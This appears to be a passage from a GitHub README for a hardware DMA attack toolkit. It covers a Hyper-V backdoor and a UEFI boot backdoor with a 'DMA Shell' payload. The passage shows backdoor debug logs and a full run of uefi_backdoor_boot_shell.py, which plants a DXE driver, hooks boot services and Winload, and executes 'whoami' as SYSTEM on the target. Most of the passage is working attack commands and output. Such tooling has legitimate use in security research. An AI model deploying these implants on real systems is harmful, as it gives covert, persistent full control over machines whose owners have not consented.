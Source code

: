 ```
DmaBackdoorHv.c(350) : new_BlLdrLoadImage(): Path = "\WINDOWS\system32\mcupdate_GenuineIntel.dll"
DmaBackdoorHv.c(350) : new_BlLdrLoadImage(): Path = "\WINDOWS\system32\hvix64.exe"
HyperV.c(369) : HyperVHook(): Hyper-V image is at 0xfffff80144e0d000
HyperV.c(388) : HyperVHook(): Resources section RVA is 0x1400000 (0x200000 bytes)
HyperV.c(425) : HyperVHook(): Code section RVA is 0x200000
HyperV.c(604) : HyperVHook(): Hyper-V VM exit handler is at 0xfffff8014502ad90
HyperV.c(605) : HyperVHook(): Backdoor code size is 684 bytes
DmaBackdoorHv.c(350) : new_BlLdrLoadImage(): Path = "\WINDOWS\system32\kdstub.dll"
DmaBackdoorHv.c(350) : new_BlLdrLoadImage(): Path = "\WINDOWS\system32\hv.exe"
DmaBackdoorHv.c(560) : new_ExitBootServices() called
```

To get more information about Hyper-V Backdoor use cases and features [check its README file](https://github.com/Cr4sh/s6_pcie_microblaze/blob/master/python/payloads/DmaBackdoorHv/README.MD) with detailed information.

Python programs `uefi_backdoor_boot.py` and `uefi_backdoor_boot_shell.py` are used to inject Boot Backdoor into the target system boot sequence. Boot Backdoor allows to run arbitrary user mode or kernel mode code under the Windows operating system and its payload called DMA Shell allows to execute console commands and transfer the files. To deploy Boot Backdoor with DMA Shell using pre-boot DMA attack you have to perform the same steps as described above but using `uefi_backdoor_boot_shell.py` program:

```
$ ./uefi_backdoor_boot_shell.py --command "whoami"
[+] 44544 bytes of payload image read
[+] 21299 bytes of payload image after the compression
[+] Using UEFI system table hook injection method
[+] Waiting for PCI-E link...
[!] PCI-E endpoint is not configured by root complex yet
[!] PCI-E endpoint is not configured by root complex yet
[!] PCI-E endpoint is not configured by root complex yet
[!] Bad MRd TLP completion received
[!] Bad MRd TLP completion received
[+] PCI-E link with target is up
[+] Device address is 01:00.0
[+] Looking for DXE driver PE image...
[+] PE image is at 0x7a070000
[+] EFI_SYSTEM_TABLE is at 0x7a03e018
[+] EFI_BOOT_SERVICES is at 0x7a38fa30
[+] EFI_BOOT_SERVICES.LocateProtocol() address is 0x7a3987b4
Backdoor image size is 0x14847
Backdoor entry RVA is 0x908
Planting DXE stage driver at 0xc0000...
Hooking LocateProtocol(): 0x7a3987b4 -> 0x000c0908
1.759079 sec.
[+] DXE driver was planted, waiting for backdoor init...
[+] DXE driver was executed, you can read its debug messages by running this program with --debug-output option
[+] Waiting for backdoor load...
[+] Winload image was loaded

              Image base: 0x0086a000
 OslArchTransferToKernel: 0x009c4b20

[+] DONE
[+] Waiting for payload init...
[+] Payload shared memory region is at 0x00200000
[+] Executing command: whoami
[+] Process exit code: 0x00000000

nt authority\system
```
